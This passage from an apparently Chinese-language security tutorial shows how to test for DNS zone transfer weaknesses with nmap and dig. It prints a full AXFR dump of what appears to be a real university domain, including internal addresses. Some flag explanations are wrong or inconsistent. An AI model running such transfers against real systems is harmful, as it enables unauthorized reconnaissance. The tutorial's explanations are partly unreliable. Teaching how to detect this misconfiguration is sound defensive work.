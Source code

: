     |_thnu.edu.cn.             SOA  dns1.thnu.edu.cn. root.thnu.edu.cn.
    
    Nmap done: 1 IP address (1 host up) scanned in 4.79 seconds


​    

对上述命令命令说明如下：

`nmap –script dns-zone-transfer`表示加载nmap文件夹下的脚本文件dns-zone-transfer.nse，扩展名.nse可省略

`–script-args dns-zone-transfer.domain=zonetransfer.me`向脚本传递参数，设置列出记录的域是nwpu.edu.cn

`-p` 53设置扫描53端口

`-Pn`:设置通过Ping发现主机是否存活

### 利用dig 检测dns域传送漏洞

这里涉及dig 一个重要的命令`axfr`:

`axfr` 是q-type类型的一种: axfr类型是Authoritative Transfer的缩写，指请求传送某个区域的全部记录。

我们只要欺骗dns服务器发送一个axfr请求过去，　如果该dns服务器上存在该漏洞，就会返回所有的解析记录值

第一步: 找到解析域名的dns服务器(Server服务器), 我们可以发送一个ns类型解析请求过去

    dig thnu.edu.cn ns
    
    ;; ANSWER SECTION:
    thnu.edu.cn.        2185    IN  NS  DNS1.thnu.edu.cn.


第二步: 然后向该域名发送axfr 请求：

    ❰root❙~❱✔≻ dig axfr @dns1.thnu.edu.cn thnu.edu.cn
    
    ; <<>> DiG 9.10.3-P4-Debian <<>> axfr @dns1.thnu.edu.cn thnu.edu.cn
    ; (1 server found)
    ;; global options: +cmd
    thnu.edu.cn.        3600    IN  SOA dns1.thnu.edu.cn. root.thnu.edu.cn. 2017102704 30 30 360 3600
    thnu.edu.cn.        3600    IN  NS  dns1.thnu.edu.cn.
    thnu.edu.cn.        3600    IN  MX  0 mail.thnu.edu.cn.
    admin.thnu.edu.cn.  3600    IN  A   172.16.200.11
    admissions.thnu.edu.cn. 3600    IN  A   222.160.127.36
    alumni.thnu.edu.cn. 3600    IN  A   222.160.127.36
    bwc.thnu.edu.cn.    3600    IN  A   222.160.127.36
    cxbd.thnu.edu.cn.   3600    IN  A   222.160.127.36
    cxzx.thnu.edu.cn.   3600    IN  A   222.160.127.36
    ddh.thnu.edu.cn.    3600    IN  A   222.160.127.38
    DNS1.thnu.edu.cn.   3600    IN  A   125.223.168.5
    dwb.thnu.edu.cn.    3600    IN  A   222.160.127.36
    ggl.thnu.edu.cn.    3600    IN  A   222.160.127.36
    gjjl.thnu.edu.cn.   3600    IN  A   222.160.127.36
    gjjy.thnu.edu.cn.   3600    IN  A   222.160.127.36
    gs.thnu.edu.cn.     3600    IN  A   222.160.127.36
    hqc.thnu.edu.cn.    3600    IN  A   222.160.127.36
    hxxy.thnu.edu.cn.   3600    IN  A   222.160.127.36
    jcc.thnu.edu.cn.    3600    IN  A   222.160.127.36
    jcjy.thnu.edu.cn.   3600    IN  A   222.160.127.36
    jjc.thnu.edu.cn.    3600    IN  A   222.160.127.36
    jjfz.thnu.edu.cn.   3600    IN  A   222.160.127.36
    jjw.thnu.edu.cn.    3600    IN  A   222.160.127.36
    jky.thnu.edu.cn.    3600    IN  A   222.160.127.36
    jsjxy.thnu.edu.cn.  3600    IN  A   222.160.127.36
    jwc.thnu.edu.cn.    3600    IN  A   222.160.127.36
    jwgl.thnu.edu.cn.   3600    IN  A   111.26.184.4
    jxjyxy.thnu.edu.cn. 3600    IN  A   222.160.127.36
    jy.thnu.edu.cn.     3600    IN  A   47.89.44.34
    jyw.thnu.edu.cn.    3600    IN  A   222.160.127.36
    jyx.thnu.edu.cn.    3600    IN  A   222.160.127.36